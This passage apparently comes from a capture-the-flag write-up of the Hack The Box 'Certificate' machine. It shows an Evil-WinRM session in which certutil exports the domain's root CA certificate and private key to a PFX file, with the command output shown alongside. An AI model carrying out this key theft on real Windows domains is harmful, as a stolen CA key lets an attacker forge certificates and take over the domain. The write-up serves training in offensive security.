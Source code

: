 ```
  Provider = Microsoft RSA SChannel Cryptographic Provider
Private key is NOT exportable
Encryption test passed

================ Certificate 2 ================
~$ Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
~$ Signature test passed
CertUtil: -store command completed successfully.
```

<p class="indent-paragraph">
With the private key now accessible, the attacker executed <code>certutil -exportPFX</code> targeting the certificate with serial number <code>75b2f4bbf31f108945147b466131bdca</code><span class="codefix">.</span> The command successfully exported the root CA certificate <code>Certificate-LTD-CA</code> along with its private key, as indicated by the <code>Signature test passed</code> message and the final confirmation. This validated that the previous privilege escalation steps had effectively restored the keyset, enabling full certificate extraction.
</p>


```
~$ *Evil-WinRM* PS C:\Users\Ryan.K> certutil -exportPFX My 75b2f4bbf31f108945147b466131bdca Certificate-LTD-CA.pfx
My "Personal"
================ Certificate 2 ================
~$ Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file Certificate-LTD-CA.pfx:
Enter new password:
Confirm new password:
~$ CertUtil: -exportPFX command completed successfully.
```

